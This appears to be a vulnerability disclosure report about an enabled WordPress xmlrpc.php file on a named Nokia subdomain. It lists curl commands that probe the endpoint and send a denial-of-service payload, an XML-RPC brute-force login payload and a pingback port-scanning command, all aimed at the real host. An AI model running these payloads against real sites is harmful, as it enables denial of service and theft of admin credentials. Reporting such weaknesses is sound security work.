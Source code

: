 # Xmlrpc.php 

# Description :
##### Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS and Start Brute Force attack . The website https://wavelite-selector.networks.nokia.com has the xmlrpc.php file enabled
##### In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

```
$ curl -d @do.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
<img src='src/xmlrpc_first.png'>

#### Notice that a successful response is received showing that the xmlrpc.php file is enabled.

### Now i will use 2 attacks (Dos Attack) and (Brute Force)
<hr>
## Dos Attack
```
$ curl -d @dos.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

#### Response :
<img src='src/nokia_xmlrpc_dos.png'>
<hr>

## Brute Force

##### payload

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

<img src='src/ccw.png'>

## Port scanning

#### Download This Tool https://github.com/FireFart/WordpressPingbackPortScanner 

```
./wppps.rb https://wavelite-selector.networks.nokia.com/xmlrpc.php https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

## Reference :
* https://medium.com/@protector47/how-to-hack-wordpress-website-via-xmlrpc-php-61c813fa3740

# Impact
### This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.
### this method is also used for brute force attacks to stealing the admin credentials and other important credentials
